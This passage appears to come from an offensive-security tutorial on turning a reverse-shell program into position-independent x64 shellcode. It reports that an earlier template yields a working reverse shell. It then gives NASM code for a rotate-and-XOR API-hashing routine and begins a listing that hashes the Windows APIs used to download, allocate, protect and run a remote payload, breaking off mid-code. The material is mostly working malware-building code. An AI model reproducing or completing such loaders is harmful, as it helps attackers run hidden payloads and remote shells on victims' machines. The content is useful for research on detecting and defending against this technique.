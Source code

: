 You should be greeted with a nice reverse shell!

<img width="995" height="269" alt="image" src="https://github.com/user-attachments/assets/a5494ffd-d22c-4be8-88a4-a4f8b2f97706" />

Cool, so we know it works.  😸 Plus, using `externs` for our APIs simplifies the process for conceptualizing going from C++ code to x64 assembly.  However, we now need to step it up a notch and move toward our end goal of PIC friendly shellcode.  This will remove all reliance upon .bss uniitialized variables and the .data section for starters.  But first, we need to prepare for loading all those APIs we used in this Phase 1 template.  We'll do that next!

API Hashing in x64 Assembly
-

Okay, so we need to start working our way toward that PIC shellcode.  Once again, that is Position Independent Shellcode that can be executed without reliance on any hardcoded memory addresses or initialized/uninitialized variables.  

We're going to use a ROT5 (ROTATE LEFT 5) + XOR hashing technique.  In essence, we are performing a bitwise rotatation of each character in our API string left by 5, and then Xoring it.  This will produce a reliable and unique hash.
Here's what that hashing routine looks like:

```nasm
initiator:
    xor eax, eax
next_char:
    mov bl, [rsi]       ; load next char
    test bl, bl
    jz store_hash
    rol eax, 5          ; rotate hash left 5 bits
    xor eax, ebx        ; hash ^= char
    inc rsi
    jmp next_char
```

It's as simple as that.  The rest of the assembly code is really just listing the APIs we wish to use to generate our hashes and then pushing the hashed value to the stack.  Here's the full code!

```nasm
bits 64

section .data
api1 db "GetProcAddress",0
api2 db "InternetOpenA",0
api3 db "RtlMoveMemory",0
api4 db "InternetOpenUrlA",0
api5 db "InternetReadFile",0
api6 db "InternetCloseHandle",0
api7 db "CloseHandle",0
api8 db "ExitProcess",0
api9 db "VirtualAlloc",0
api10 db "VirtualFree",0
api11 db "VirtualProtect",0
api12 db "CreateThread",0
api13 db "WaitForSingleObject",0
api14 db "LoadLibraryA",0

section .bss
;api1_hash resd 1        ; reserve 4 bytes for the hash (DWORD)

section .text
global main
main:
    xor ecx, ecx            ; counter to know which API we're on
    ; Hash the string
    api_1:
    lea rsi, [rel api1] ; rsi = pointer to string
```
